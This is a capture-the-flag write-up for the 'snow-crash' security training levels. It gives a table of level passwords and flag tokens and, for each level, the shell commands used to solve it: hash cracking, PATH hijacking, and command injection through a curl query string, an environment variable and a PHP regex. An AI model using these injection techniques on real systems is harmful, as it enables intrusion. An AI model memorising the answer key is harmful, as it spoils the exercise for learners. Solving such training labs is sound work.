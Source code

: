 # snow-crash
This project will be an introduction to cyber security.

## Passwords

| User    | Password                  |
| :-----: |:-------------------------:|
| level00 | level00                   |
| flag00  | nottoohardhere            |
| level01 | x24ti5gi3x0ol2eh4esiuxias |
| flag01  | abcdefg                   |
| level02 | f2av5il02puano7naaf6adaaf |
| flag02  | ft_waNDReL0L              |
| level03 | kooda2puivaav1idi4f57q8iq |
| level04 | qi0maab88jeaj46qoumi7maus |
| level05 | ne2searoevaevoem4ov4ar8ap |
| level06 | viuaaale9huek52boumoomioc |
| level07 | wiok45aaoguiboiki2tuin6ub |
| level08 | fiumuikeil55xe9cu4dood66h |
| flag08  | quif5eloekouj29ke0vouxean |
| level09 | 25749xKZ8L7DkSCwJkT9dyv6f |
| flag09  | f3iji1ju5yuevaus41q1afiuq |
| level10 | s5cAJpM8ev6XHw998pRWG728z |

## Script

### level00

```bash
level00@SnowCrash:~$ find / -user flag00 2>/dev/null
/usr/sbin/john
/rofs/usr/sbin/john
```

```bash
level00@SnowCrash:~$ cat /usr/sbin/john
cdiiddwpgswtgt
```

- [identify encryption method](https://www.dcode.fr/identification-chiffrement)
- [decrypt cesar code](https://www.dcode.fr/chiffre-cesar)

### level01

```bash
flag00@SnowCrash:~$ cat /etc/passwd | grep flag01
flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
```

Using ``john the ripper`` I was able to find corresponding password.

```bash
user@hostname:~$ echo "42hDRfypTqqnw" > /tmp/password-file && john /tmp/password-file && john -show /tmp/password-file
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 SSE2-16])
No password hashes left to crack (see FAQ)
?:abcdefg
1 password hash cracked, 0 left
```

### level02

Open ``level02.pcap`` in wireshark then Statistics -> Conversations -> Tab TCP -> Follow Stream

### level03

```bash
level03@SnowCrash:~$ strings ./level03 | grep Exploit
/usr/bin/env echo Exploit me
level03@SnowCrash:~$ cp /bin/getflag ./echo
level03@SnowCrash:~$ PATH=$PWD ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

### level04

```bash
level04@SnowCrash:~$ curl localhost:4747?x='$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

### level05

```bash
echo "getflag > /tmp/log" > /opt/openarenaserver/foo
sleep 120
cat /tmp/foo
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

### level06

```bash
level06@SnowCrash:~$ echo '[x {$z(getflag)}]' > file
level06@SnowCrash:~$ ./level06 file shell_exec
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
Check flag x Here is your token : wiok45aaoguiboiki2tuin6ub
```

### level07

```bash
level07@SnowCrash:~$ LOGNAME='`getflag`' ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
### level08

```
level08@SnowCrash:~$ mv token toto && ./level08 toto
quif5eloekouj29ke0vouxean
level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

### level09

```bash
level09@SnowCrash:~$ echo '#include <stdio.h>
#include <stdlib.h>

int main(void) {
    int passwd[26] = { 102,  52, 107, 109, 109,  54, 112, 124,  61, 130, 127, 112, 130, 110, 131, 130, 68,  66, 131,  68, 117, 123, 127, 140, 137,  10 };

    for (int i = 0; i < 26; i++)
        printf("%c", (passwd[i] - i >= 20) ? passwd[i] - i : 20);
    printf("\n");
    return (EXIT_SUCCESS);
}' > main.c && gcc -std=gnu99 main.c && ./a.out
f3iji1ju5yuevaus41q1afiuq
```
```
level09@SnowCrash:~$ su flag09
Password:
Don't forget to launch getflag !
flag09@SnowCrash:~$ getflag
Check flag.Here is your token : s5cAJpM8ev6XHw998pRWG728z
```
